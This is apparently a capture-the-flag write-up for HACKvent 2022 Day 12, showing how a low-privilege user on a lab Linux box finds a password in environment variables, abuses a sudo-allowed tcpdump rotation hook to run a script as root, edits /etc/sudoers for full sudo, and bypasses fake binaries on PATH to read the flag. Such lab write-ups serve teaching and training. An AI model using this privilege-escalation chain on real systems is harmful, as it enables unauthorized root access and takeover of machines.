

CSS: ../meta/avenir-white.css

[← Hidden 02](../hid02/) / [↑ TOC](../README.md) / [→ Day 13](../day13/)


# Day 12 / HV22.12 Funny SysAdmin


## Challenge

* Author: wangibangi
* Tags:   `#linux`
* Level:  medium

Santa wrote his first small script, to track the open gifts on the wishlist.
However the script stopped working a couple of days ago and Santa has been
stuck debugging the script. His sysadmin seems to be a bit funny ;)

**Goal**

Can you find the secret flag on the box? \
Start the resources in the Resources section to find out!


## Solution

We were given a docker instance running Linux and a web shell access that
automatically logged in when opened in a web browser.



After looking around a bit, the first impressions were ...

* I am regular user `santa`
* This is Alpine Linux 3.13.12
* Kernel-Version: 3.10.0-1160.71.1.el7.x86_64
* There are two files in the home directory: a shell history and a script

```sh
santa@[server]:/home/santa> id
uid=2000(santa) gid=2000(santa) groups=2000(santa)

santa@[server]:/home/santa> uname -a
Linux [server] 3.10.0-1160.71.1.el7.x86_64 #1 SMP Tue Jun 28 15:37:28 UTC 2022 x86_64 Linux

santa@[server]:/home/santa> cat /etc/*-release
3.13.12
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.13.12
PRETTY_NAME="Alpine Linux v3.13"
HOME_URL="https://alpinelinux.org/"
BUG_REPORT_URL="https://bugs.alpinelinux.org/"

santa@[server]:/home/santa> cat /proc/version
Linux version 3.10.0-1160.71.1.el7.x86_64 (mockbuild@kbuilder.bsys.centos.org) (gcc version 4.8.5 20150623 (Red Hat 4.8.5-44) (GCC) ) #1 SMP Tue Jun 28 15:37:28 UTC 2022

santa@[server]:/home/santa> ls -a
.                ..               .ash_history     santa-script.sh
```

The script is probably the one santa wrote, that doesn't work anymore. Let's
have a look at the script and execute it ...

```sh
santa@[server]:/home/santa> cat santa-script.sh 
#!/bin/ash
echo "$(date)" >> /var/log/wishlist.log
curl -k https://brick-steep-tower.glitch.me/api/wishlist/items | jq .[].name >> /var/log/wishlist.log
echo "---------" >> /var/log/wishlist.log

santa@[server]:/home/santa> ./santa-script.sh 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:--  0:00:12 --:--:--     0^C
```

The script seems to parse some JSON data from the URL
`https://brick-steep-tower.glitch.me/api/wishlist/items` and writing it into the
log file `/var/log/wishlist.log`. The script actually doesn't work. It cannot
reach the URL (or any other network entity).

I naturally assumed, that the flag was on that web server or in the log file.
But accessing the web server from my machine failed. And the log file is not
readable ...

```sh
santa@[server]:/home/santa> cat /var/log/wishlist.log 
cat: can't open '/var/log/wishlist.log': Permission denied

santa@[server]:/home/santa> ls -l /var/log/
total 4
drwxr-xr-x    1 root     root            28 Nov 20 18:42 go-dnsmasq
-rwx-w--w-    1 root     root           449 Dec 14 01:02 wishlist.log
```

Next I wanted to just do a search for files called "flag" or similar. But that
just said `404`. It turns out that the find command on this system is just a
shell script that emits `404`.

"This _is_ kinda of a funny system!" `:^)` ...

```sh
santa@[server]:/home/santa> find / -iname "*flag*" 2>/dev/zero
404
santa@[server]:/home/santa> which find
/usr/bin/find
santa@[server]:/home/santa> cat /usr/bin/find
echo '404'
```

### Getting find(1) to work

It probably would not have been necessary but I really wanted to have the
_find(1)_ command. I tried to install find from the package manager. For `sudo`
it wanted Santa's password which I didn't have. Obviously usual ways of doing
things wouldn't work ...

```sh
santa@[server]:/home/santa> apk add findutils
ERROR: Unable to lock database: Permission denied
ERROR: Failed to open apk database: Permission denied

santa@[server]:/home/santa> sudo apk add findutils
[sudo] password for santa: 
Sorry, try again.
```

Find is just one single binary. So I searched and downloaded the
[findutils-4.9.0-r2.apk][findutilsApk]-package from an
[Alpine Linux binary package repository][alpineX86Repo] extracted the package
contents on my machine, base64-encoded the find binary and split it up into
4 parts.

[findutilsApk]: http://dl-cdn.alpinelinux.org/alpine/edge/main/x86_64/findutils-4.9.0-r2.apk
[alpineX86Repo]: http://dl-cdn.alpinelinux.org/alpine/edge/main/x86_64/

```sh
$ curl -O http://dl-cdn.alpinelinux.org/alpine/edge/main/x86_64/findutils-4.9.0-r2.apk
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  151k  100  151k    0     0   628k      0 --:--:-- --:--:-- --:--:--  629k

$ tar -tf findutils-4.9.0-r2.apk 
.SIGN.RSA.alpine-devel@lists.alpinelinux.org-6165ee59.rsa.pub
.PKGINFO
usr/
usr/bin/
usr/bin/find
usr/bin/xargs
var/

$ tar -xzvf findutils-4.9.0-r2.apk --strip-components 2 usr/bin/find 
x find

$ md5sum find
fdbdbdc0b5f5a9434c3d90002184ef64  find

$ cat find | base64 | split -b 100000 - fb64.

$ ls -d ./fb64.*
./fb64.aa ./fb64.ab ./fb64.ac ./fb64.ad
```

I then "uploaded" each part by pasting it into a _printf(1)_ command
on the web shell. The parts were glued together again, base64-decoded, 
integrity checked with _md5sum(1)_, decorated with execution permissions and
bingle bangle bungle _find(1)_ was working ...

```sh
santa@[server]:/home/santa> ls
fb64.aa          fb64.ab          fb64.ac          fb64.ad          santa-script.sh

santa@[server]:/home/santa> cat fb64.* | base64 -d > find; rm fb64.*

santa@[server]:/home/santa> md5sum find
fdbdbdc0b5f5a9434c3d90002184ef64  find

santa@[server]:/home/santa> chmod u+x find

santa@[server]:/home/santa> alias find=/home/santa/find

santa@[server]:/home/santa> find
.
./.ash_history
./santa-script.sh
./fb64.aa
./fb64.ab
./fb64.ac
./fb64.ad
./find
```

But still there was no flag to be found `:-(`


### The password from _env(1)_ (and `sudo -l`)

Things started to change direction after I found Santa's password in the
environment variables ...

```sh
santa@[server]:/home/santa> env
GO_DNSMASQ_LOG_FILE=/var/log/go-dnsmasq/go-dnsmasq.log
HOSTNAME=[server]
GO_DNSMASQ_RUNAS=go-dnsmasq
PWD=/home/santa
domainname=idocker.vuln.land
HOME=/root
HL_USER_PASSWORD=hackvent22             # <---- THERE IT IS
TERM=xterm-256color
SHLVL=2
GO_DNSMASQ_VERSION=1.0.7
CWD=/
HL_USER_USERNAME=santa
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
S6_OVERLAY_VERSION=v2.2.0.3
OLDPWD=/run/s6/services/ttyd
_=/usr/bin/env
```

With the password it was now possible to run `sudo`. But It still would not let
me do anything. So I ran `sudo -l` to list the things that Santa is allowed to
do with sudo. \
(I later learned, that I could have run `sudo -l` without the password. I didn't
know that was possible.)

```sh
santa@[server]:/home/santa> sudo cat /var/log/wishlist.log
[sudo] password for santa: 
Sorry, user santa is not allowed to execute '/usr/foobar/cat /var/log/wishlist.log' as root on [server].

santa@[server]:/home/santa> sudo -l
Matching Defaults entries for santa on [server]:
   
    secure_path=/usr/foobar\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User santa may run the following commands on [server]:
    (root) NOPASSWD: /usr/bin/less /var/log/*
    (root) NOPASSWD: !/usr/bin/less /var/log/*..*
    (root) NOPASSWD: !/usr/bin/less /var/log/* *
    (root) NOPASSWD: /usr/bin/tcpdump
```

So Santa is allowed to read log files with _less(1)_ and ... run _tcpdump(1)_
?!

(The _tcpdump(1)_ permission kinda made sense because Santa used it to debug his
script. That can be deduced when looking at `/home/santa/.ash_history`.)


### Privesc with _tcpdump(1)_

At this point everything was starting to come together nicely `:-)`

_tcpdump(1)_ can be abused to do a privilege escalation. The basic idea is to
call _tcpdump(1)_ in a certain way so it executes an arbitrary script for you.

In _tcpdump(1)_ there is a possibility to use a custom command to compress
captured packet data when a log rotation condition is met. The trick is to
hand it a script you want to execute as root, tell it that log rotate must
happen after a single captured packet execute it and then wait for a network
packet or issue one yourself...

```sh
santa@[server]:/home/santa> cat << EOF > /tmp/payload.sh
> #!/bin/sh
> id
> EOF

santa@[server]:/home/santa> chmod u+x /tmp/payload.sh 

santa@[server]:/home/santa>\
sudo tcpdump -nl -i eth0 -w /dev/zero -W 1 -G 1 -z /tmp/payload.sh -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
2 packets received by filter
0 packets dropped by kernel
> uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

```

"GREAT SUCCESS!" `\(^-^)/`

Now it's just a matter of crafting a more useful payload script. Let's give
ourselfs full sudo permissions ...

```sh
santa@[server]:/home/santa> cat << EOF > /tmp/payload.sh
#!/bin/sh
chmod 777 /etc/sudoers
/bin/sed -i '/root/a santa ALL=(ALL) ALL' /etc/sudoers
chmod 400 /etc/sudoers
EOF

santa@[server]:/home/santa>\
sudo tcpdump -nl -i eth0 -w /dev/zero -W 1 -G 1 -z /tmp/payload.sh -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
0 packets dropped by kernel

santa@[server]:/home/santa> sudo id
[sudo] password for santa: 
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

After getting root privelege more funny business was in order ... `:-D`

```sh
santa@[server]:/home/santa> sudo su
[sudo] password for santa: 

/home/santa # ls


                  (  ) (@@) ( )  (@)  ()    @@    O     @     O     @      O
             (@@@)
         (    )
      (@@@@)

    (   )
   ====        ________                ___________
D _|  |_______/        \__I_I_____===__|_________|
|(_)---  |   H\________/ |   |        =|___ ___|      _________________
/     |  |   H  |  |     |   |         ||_| |_||     _|                \_____A
      |  |   H  |__--------------------| [___] |   =|                        |
 ________|___H__/__|_____/[][]~\_______|       |   -|                        |
/ |   |-----------I_____I [][] []  D   |=======|____|________________________|_
 =| o |=-O=====O=====O=====O \ ____Y___________|__|__________________________|_
-=|___|=    ||    ||    ||    |_____/~\___/          |_D__D__D_|  |_D__D__D_|
_/      \__/  \__/  \__/  \__/      \_/               \_/   \_/    \_/   \_/


/home/santa # find / -iname "*flag*" 2>/dev/zero
404 not found

/home/santa # cat /root/flag.txt
Meow - I like cats

/home/santa # grep '*' /root/flag.txt
its gnugrep

/home/santa # gnugrep '*' /root/flag.txt
nope, still no grep here

/home/santa # tail /root/flag.txt
happiness is a wagging tail

/home/santa # head /root/flag.txt
I know I am not going to be in your head all the time

/home/santa # sed 's/\(.\)/\1/' /root/flag.txt
https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

The culprit was quickly found. The `PATH` variable had an additional directory
in front that contained fake binaries. It can be circumvented by calling the
binary with an absolute path. 

Finding the flag now was as easy as finding any file ...

```sh
/home/santa # echo $PATH
/usr/foobar:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

/home/santa # /home/santa/find / -iname "*flag.txt*" 2>/dev/zero
/root/secret/flag.txt

/home/santa # /bin/cat /root/secret/flag.txt
HV22{M4k3-M3-a-S4ndW1ch}
```

--------------------------------------------------------------------------------

Flag: `HV22{M4k3-M3-a-S4ndW1ch}`

[← Hidden 02](../hid02/) / [↑ TOC](../README.md) / [→ Day 13](../day13/)
